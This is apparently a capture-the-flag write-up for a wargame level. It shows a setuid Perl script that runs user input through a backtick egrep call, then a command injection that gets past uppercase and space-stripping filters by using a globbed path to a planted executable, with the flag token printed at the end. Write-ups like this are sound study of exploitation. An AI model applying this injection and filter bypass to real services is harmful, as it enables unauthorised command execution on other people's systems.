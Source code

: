 ```sh
$> ls -l ~/
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl

$> cat level12.pl
[...]
	$xx = $_[0];
	$xx =~ tr/a-z/A-Z/;
	$xx =~ s/\s.*//;
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
[...]
```

The code is vulnerable to a command injection.  
We have two regex:
- uppercase all the letters
- remove all the spaces

Because of that, we cannot use `getflag > /tmp/tok` for example.  
We can try to inject a file that is executable and that will match those two conditions instead

```sh
$> echo 'getflag > /tmp/tok' > /tmp/TST

$> chmod +x /tmp/TST

$> curl localhost:4646?x='`/*/TST`'

$> cat /tmp/tok
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
